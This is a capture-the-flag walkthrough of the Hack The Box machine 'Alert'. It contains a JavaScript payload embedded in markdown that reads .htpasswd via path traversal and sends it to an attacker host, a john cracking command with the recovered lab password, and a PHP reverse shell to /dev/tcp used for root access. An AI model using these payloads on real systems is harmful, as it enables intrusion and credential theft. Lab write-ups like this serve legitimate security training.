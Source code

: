 ```yaml
---
sticker: emoji//1f534
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![](cybersecurity/images/Pasted%2520image%252020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](cybersecurity/images/Pasted%2520image%252020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](cybersecurity/images/Pasted%2520image%252020250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](cybersecurity/images/Pasted%2520image%252020250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](cybersecurity/images/Pasted%2520image%252020250110155457.png)

We are able to read `user.txt`:

![](cybersecurity/images/Pasted%2520image%252020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![](cybersecurity/images/Pasted%2520image%252020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![](cybersecurity/images/Pasted%2520image%252020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](cybersecurity/images/Pasted%2520image%252020250110161332.png)

```

We got a root shell, let's read flag:

![](cybersecurity/images/Pasted%2520image%252020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

